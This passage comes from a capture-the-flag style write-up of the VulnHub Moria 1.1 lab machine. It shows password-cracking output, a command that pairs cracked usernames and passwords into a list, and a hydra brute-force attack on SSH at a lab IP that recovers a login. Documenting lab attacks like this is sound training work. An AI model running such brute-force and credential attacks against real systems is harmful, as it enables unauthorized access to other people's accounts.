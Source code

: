 	rainbow          (?)     
	abcdef           (?)     
	fuckoff          (?)     
	darkness         (?)     
	magic            (?)     
	hunter2          (?)     
	9g 0:00:00:00 DONE 2/3 (2022-03-03 18:36) 450.0g/s 1512Kp/s 2856Kc/s 2856KC/s PHOENIX..kids2
	Use the "--show --format=dynamic_6" options to display all of the cracked passwords reliably
	Session completed. 
	```

## TCP/22 (SSH)
1. Create wordlist in username:password format for hydra
	``` 
	┌──(root💀kali)-[~/vulnHub/moria-1.1/192.168.110.36/exploit]
	└─# paste -d ":" usernames.txt passwords.txt | tee hydra_creds.txt
	Balin:flower
	Oin:rainbow
	Ori:spanky
	Maeglin:fuckoff
	Fundin:hunter2
	Nain:warrior
	Dain:abcdef
	Thrain:darkness
	Telchar:magic
	```
2. Bruteforce SSH
	``` 
	┌──(root💀kali)-[~/vulnHub/moria-1.1/192.168.110.36/exploit]
	└─# hydra -C hydra_creds.txt ssh://$ip
	Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-02 20:26:04
	[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
	[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries, ~1 try per task
	[DATA] attacking ssh://192.168.110.36:22/
	[22][ssh] host: 192.168.110.36   login: Ori   password: spanky
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-02 20:26:07
	```
	- Ori:spanky
3. SSH w/ Ori:spanky
	![](Pasted%20image%2020220302203532.png)


# Privilege Escalation

